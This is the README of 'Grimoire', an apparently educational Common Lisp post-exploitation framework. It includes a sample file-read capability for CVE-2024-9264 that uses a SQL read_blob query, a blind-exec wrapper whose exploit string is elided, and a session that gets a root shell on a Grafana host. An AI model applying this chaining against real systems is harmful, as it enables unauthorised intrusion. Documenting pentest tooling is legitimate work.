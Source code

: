 # Grimoire

<p align="center">
  <img src="https://github.com/user-attachments/assets/127f9116-e1d9-4ccc-9c22-ee17c3afda75"/>
</p>

<p align="center">
  A collection of utilities designed to facilitate reconnaissance, exploitation, persistence, and privilege escalation (only for educational purposes).
</p>

## Installation

To use Grimoire, clone the repository to your local machine.

```bash
$ git clone https://github.com/solanav/grimoire
```

After that, launch your common lisp environment (be it Lem, Emacs or any other IDE) and load Grimoire with:

```lisp
CL-USER> (ql:quickload :grimoire)
```
    
You should then enter the package and start working on the system itself, rather than using it from another package:
    
```lisp
CL-USER> (in-package :grimoire)
```
    
## Concepts

- **Capability**: Created using `define-capability`. They expose some type of operation to the framework such as reading files, blind code execution or file uploads.

- **Recipes**: Created using `define-recipe`. They use the capabilities available to do interesting or useful operations on the system. For example, the recipe `download-all` allows the user to download all files in a given remote path if the capacity to execute code is available to Grimoire.
    
- **Derivations**: Created using `define-derivation`. They allow Grimoire to derive new capabilities from already implemented ones. For example, if you have both the read and blind execution capabilities, you will be able to derive the sighted execution through a derivation.
    
- **Loot**: Managed through the functions starting with `loot/*`. You can save loot by passing a key and a value, retrieve it by passing a key only or listing the loot available by calling the function without parameters.

## Usage

Once you have Grimoire loaded, you can start using its utilities. First you should find an entry point to the system you are trying to exploit.

If you find a way of reading files in the remote server for example, you can create a function called `read-CVE-2024-9264` that reads files from the remote server:

```lisp
(define-capability :read read-CVE-2024-9264 (file)
  (let* ((text (str:replace-all
                "\\x0A" (fmt "~%")
                (planning/query
                 (fmt "SELECT content FROM read_blob(\"~a\")"
                      file))))
         (text-len (1- (length text))))
    (if (plusp text-len)
        (subseq text 0 text-len)
        "")))
```

Grimoire now unlocks a bunch of functions that you can use to progress further, for example:

```lisp
GRIMOIRE> (all-users)
("root" "daemon" "bin" "sys" "sync" "games" "man" "lp" "mail"
 "news" "uucp" "proxy" "www-data" "backup" "list" "irc" "gnats"
 "nobody" "_apt" "grafana")

GRIMOIRE> (system-info)
(("PRETTY_NAME" . "Ubuntu 22.04.4 LTS")
 ("NAME" . "Ubuntu") 
 ("VERSION_ID" . "22.04")
 ("VERSION" . "22.04.4 LTS (Jammy Jellyfish)")
 ("VERSION_CODENAME" . "jammy") 
 ("ID" . "ubuntu")
 ("ID_LIKE" . "debian")
 ("HOME_URL" . "https://www.ubuntu.com/")
 ("SUPPORT_URL" . "https://help.ubuntu.com/")
 ("BUG_REPORT_URL" . "https://bugs.launchpad.net/ubuntu/")
 ("PRIVACY_POLICY_URL" . "https://.../privacy-policy")
 ("UBUNTU_CODENAME" . "jammy"))
```
    
If you now create another capability to do blind execution of code:

```lisp
(define-capability :blind-exec blind-exec-CVE-2024-9264 (command)
  (send-request-to-vulnerable-server
   (fmt *exploit* command)))
```
    
So now if we check our current capabilities:
```lisp
GRIMOIRE> (capability/list)
(:READ :BLIND-EXEC)
```
    
Running `derivation/list` will yield:
```lisp
GRIMOIRE> (derivation/list)
[+] Derivation "LET-THERE-BE-LIGHT"
    Runnable? [YES] (needs :READ, :BLIND-EXEC)
    Needed?   [YES] (provides :EXEC)

[+] Derivation "CAT"
    Runnable? [NO] (needs :EXEC)
    Needed?   [NO] (provides :READ)
```
    
So lets run the first derivation in the REPL:
```lisp
GRIMOIRE> (derivation/run :let-there-be-light)
[+] Added new capability: :EXEC
```

So lets test it with the `fake-shell` recipe:
```lisp
GRIMOIRE> (fake-shell)
[/usr/share/grafana]$ ls
LICENSE
bin
conf
public

[/usr/share/grafana]$ whoami
root

[/usr/share/grafana]$ exit
```

## Roadmap

In no particular order:

- [ ] Package Grimoire with Lem so it can be used as a standalone tool.
- [ ] Add an easy way to create POCs and export them so Grimoire can use them.
- [ ] Add write utilities to Grimoire.
- [x] Add execute utilities to Grimoire.
- [ ] Add a more precise way of expressing capabilities and not just `:read`, `:write` and `:execute`.
- [ ] Add a graph like representation of capabilities and how they can be chained together.
- [ ] Add a way to easily share capabilities with other users.
- [ ] Add some kind of database to store loot and other stuff.
- [ ] Add logging.
- [ ] Add a way to easily create a report of the pentest.
- [ ] Add some testing maybe.
- [x] Add a deployable binary for persistance.
